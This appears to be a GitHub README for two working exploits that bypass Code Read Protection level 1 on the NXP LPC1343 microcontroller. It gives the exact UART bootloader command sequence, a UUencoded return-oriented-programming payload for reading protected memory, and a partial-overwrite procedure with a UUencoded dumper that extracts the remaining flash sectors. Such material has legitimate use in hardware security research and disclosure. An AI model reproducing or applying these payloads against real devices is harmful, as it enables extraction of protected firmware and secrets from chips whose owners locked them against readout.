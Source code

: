# NXP LPC1343 CRP bypasses
This exploit bypasses CRP level 1 of the LPC1343 through Return-Oriented Programming and partial overwrit. 

## ROP Exploit

This assumes that the LCP is configured already in CRP 1.

 * Make sure the LPC1343 is in the bootloader: close the BLD_E jumper and ground P0_3
 * Connect via UART and send `?`
 * From now all commands should end with `\r\n`
 * You should get back `Synchronized\r\n`
 * Send `Synchronized\r\n`
 * You should get back `OK\r\n`
 * Send `12000\r\n` to the board to set the clock rate to 12MHz. You should get back `OK\r\n`
 * Let's try to read some memory, e.g. `R 0 4\r\n` - this will try to read 4 byte from 0x00, but will fail with error code `19` (CRP enabled) if chip is protected
 * Let's exploit, first send: `W 268443476 172\r\n`
 * Now, send this exploit to read from 0x000002fc (this is where CRP is stored): 
 ```
 L^PS_'____________`(``+L0_Q^[$/\?NQ#_'[L0_Q]_$?\?`````($._Q\`
 ```
 * This will give UUencoded memory block, you can repeatedly send `OK\r\n` to dump more memory
 
To change the read address, you need to adapt the address at offset 0x0C ... 0x0F (LSByte first)  in `Exploit_Read_CRP_Value.bin`. Then, `uuencode` this file, and copy only the actual encoded part. Do not include the header
```
begin 777 /dev/stdout
```
and the footer 
```
`
end
```

## Partial Overwrite Exploit

This assumes that you have multiple devices with the same code. The below is an example to overwrite sector 1, and dump sector 0 and 2...7:

Enable Erase Command: U 23130

 * Make sure the LPC1343 is in the bootloader: close the BLD_E jumper and ground P0_3
 * Connect via UART and send `?`
 * From now all commands should end with `\r\n`
 * You should get back `Synchronized\r\n`
 * Send `Synchronized\r\n`
 * You should get back `OK\r\n`
 * Send `12000\r\n` to the board to set the clock rate to 12MHz. You should get back `OK\r\n`
 * Prepare Sector 1: `P 1 1\r\n`
 * Erase Sector 1: `E 1 1\r\n`
 * Write 256 bytes at 0x10001700 in RAM: `W 268441344 256\r\n`
 * Send the encoded dumper (see Dumper.c):
 ```
M"TL`(EEIB`;\U1+X`1NR]8!?&6#VT4_T`%)9:8D&_-42^`$;LO4`3QE@]M'I
MYP"_`(``0`"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_
M`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`
MOP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_
M`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`
?OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP``
```
* Send the checksum of the bytes: `25345\r\n`

* Prepare Sector 1: `P 1 1\r\n`

* Copy 256 bytes strating from address 0x10001700 in RAM to 0x1100 in flash: `C 4352 268441344 256\r\n`

* Reset - will now dump sector 0 and sectors 2...7


